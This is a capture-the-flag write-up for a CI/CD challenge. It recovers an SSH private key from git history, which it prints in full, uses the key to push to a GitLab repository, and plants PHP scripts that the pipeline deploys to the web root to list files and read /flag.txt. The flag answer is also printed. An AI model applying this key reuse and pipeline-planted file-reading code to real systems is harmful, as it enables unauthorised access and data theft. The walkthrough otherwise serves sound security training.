 
# Objective 7: Jolly CI/CD
**Location: Elfen Ring / Elf House / Jolly CI/CD Terminal**  
**Hints (2x) from Tinsel Upatree**

This objective is about getting familiar with the benefits and risks of CI/CD pipelines.

First we clone the repository and check with ```git log``` for any "interesting" commit comments. Then we use ```git diff``` to show the delta between those.
```
git clone http://gitlab.flag.net.internal/rings-of-powder/wordpress.flag.net.internal.git
git log
git diff abdea0ebb21b156c01f7533cea3b895c26198c98 e19f653bde9ea3de6af21a587e41e7a909db1ca5

-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAAAMwAAAAtzc2gtZW
QyNTUxOQAAACD+wLHSOxzr5OKYjnMC2Xw6LT6gY9rQ6vTQXU1JG2Qa4gAAAJiQFTn3kBU5
9wAAAAtzc2gtZWQyNTUxOQAAACD+wLHSOxzr5OKYjnMC2Xw6LT6gY9rQ6vTQXU1JG2Qa4g
AAAEBL0qH+iiHi9Khw6QtD6+DHwFwYc50cwR0HjNsfOVXOcv7AsdI7HOvk4piOcwLZfDot
PqBj2tDq9NBdTUkbZBriAAAAFHNwb3J4QGtyaW5nbGVjb24uY29tAQ==
-----END OPENSSH PRIVATE KEY-----
```
Next we copy this SSH private key into ```~/.ssh/id_rsa```.

```
git config --global user.email "joergen@north.pole"
git config --global user.name "joergen"
git remote set-url origin git@gitlab.flag.net.internal:rings-of-powder/wordpress.flag.net.internal.git
```

Next we check in a PHP script ```test.php``` to list the contents of the root directory, which will automatically be deployed into the web root:
```
<?php
if ($handle = opendir('/')) {
  while (false !== ($entry = readdir($handle))) {
    if ($entry != "." && $entry != "..") {
      echo "$entry\n";
    }
  }
  closedir($handle);
}
?>
```

```
git add test.php
git commit -m.
git push
curl http://wordpress.flag.net.internal/test.php
[...]
var
bin
mnt
.dockerenv
flag.txt
```

Next we modify the script to reveal the flag:
```
<?php
echo file_get_contents('/flag.txt');
?>
```

```
git add test.php
git commit -m.
git push
curl http://wordpress.flag.net.internal/test.php
[...]
oI40zIuCcN8c3MhKgQjOMN8lfYtVqcKT
```

**oI40zIuCcN8c3MhKgQjOMN8lfYtVqcKT**

**Achievement: Jolly CI/CD**
